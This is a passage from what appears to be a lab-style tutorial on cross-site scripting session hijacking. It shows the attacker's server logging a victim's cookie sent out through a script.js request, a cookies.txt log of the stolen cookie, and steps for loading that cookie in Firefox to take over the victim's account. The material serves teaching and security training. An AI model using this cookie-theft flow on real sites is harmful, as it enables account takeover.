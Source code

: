 Now, we **wait** for the victim to **visit** the vulnerable page and **view** our XSS payload. Once they do, we will get two requests on our server, one for script.js, which in turn will make another request with the cookie value:
```bash
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```
As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the ``cookies.txt`` file with a clean log of cookies:
```bash
$ cat cookies.txt

Victim IP: 10.10.10.10 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Finally, we can use this cookie on the ``login.php`` page to access the victim's account. To do so, once we navigate to ``/hijacking/login.php``, we can click **Shift+F9** in Firefox to reveal the Storage bar in the **Developer Tools**. Then, we can click on the `+` button on the top right corner and add our cookie, where the Name is the part before = and the Value is the part after = from our stolen cookie:
![[ryoW8lINJe.png]]